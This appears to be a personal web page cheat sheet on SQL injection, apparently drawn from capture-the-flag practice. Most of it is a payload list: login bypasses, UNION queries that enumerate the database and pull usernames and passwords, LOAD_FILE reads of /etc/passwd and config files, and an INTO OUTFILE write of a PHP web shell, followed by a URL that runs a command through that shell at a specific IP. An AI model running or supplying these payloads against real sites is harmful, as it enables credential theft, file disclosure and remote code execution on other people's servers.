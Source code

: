 ```yaml
---
layout: default
---
```


<[Back to Main Page](../index.html)

# SQL Injection
Creared by Christopher Fitzsimons

## TLDR
SQL is a largely known and used solution for databases which hold information for servers, websites, applications and much more. You can use SQL querie to access, add and remove data on the database. From a websites perspective, If you dont securly code your website you can use SQL queries and access data on the database when you are not suppose to. These are called SQL Injections as you are injecting your own query into the base query.

## SQL Injection Queries
```sql
admin' OR '1'='1''  
admin'-- '  
admin'-- -'  
admin'# '  
admin')-- '  
' or 1=1 limit 1 -- -  

' order by 1-- -  
cn' UNION select 1,2,3,4-- -  
cn' UNION select 1,@@version,3,4-- -  
cn' UNION SELECT 1,table_schema,table_name,4 FROM information_schema.tables-- -  
cn' UNION SELECT 1,username,3,4 FROM users-- -  
cn' UNION SELECT 1,username,password,4 FROM users-- -  
cn' UNION SELECT * FROM my_database.users;  
cn' UNION SELECT 1,SCHEMA_NAME,3,4 FROM INFORMATION_SCHEMA.SCHEMATA;  
cn' UNION select 1,database(),2,3-- -  
cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -  
cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -  
cn' UNION select 1,page,3,4 FROM dev.pages-- -  
cn' UNION select 1,username,password,4 FROM dev.credentials-- -  

SELECT LOAD_FILE('/etc/passwd');  
cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -  
cn' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- -  
cn' UNION SELECT 1, LOAD_FILE("/var/www/html/config.php"), 3, 4-- -  

cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -  
cn' UNION SELECT 1,username,password,4 from users INTO OUTFILE '/tmp/credentials'-- -  
SELECT 'this is a test' INTO OUTFILE '/tmp/test.txt';  
cn' union select 1,'file written successfully!',3,4 into outfile '/var/www/html/proof.txt'-- -  
cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -  
http://167.172.56.232:30248/shell.php?0=cat%20../flag.txt  
```
